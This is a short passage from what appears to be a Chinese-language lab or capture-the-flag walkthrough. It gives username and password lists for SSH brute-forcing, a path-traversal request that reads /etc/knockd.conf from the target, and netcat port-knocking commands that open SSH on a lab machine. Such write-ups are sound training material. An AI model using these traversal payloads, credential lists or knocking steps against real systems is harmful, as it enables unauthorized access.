 ### ssh爆破

将其放入两个文件内：

```apl
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2

3kfs86sfd
468sfdfsd2
4sfd87sfd1
RocksOff
TC&TheBoyz
B8m#48sd
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7s
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
```

但是没开放 22 端口，远程目录看一下是不是得knock一下才会开放：

```text
http://10.160.58.244/manage.php?file=../../../../../../etc/knockd.conf
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116483.png" alt="image-20240321202517833" style="zoom:50%;" />

按照顺序敲击就行：

```bash
nc 10.160.58.244 7469
nc 10.160.58.244 8475
nc 10.160.58.244 9842
```
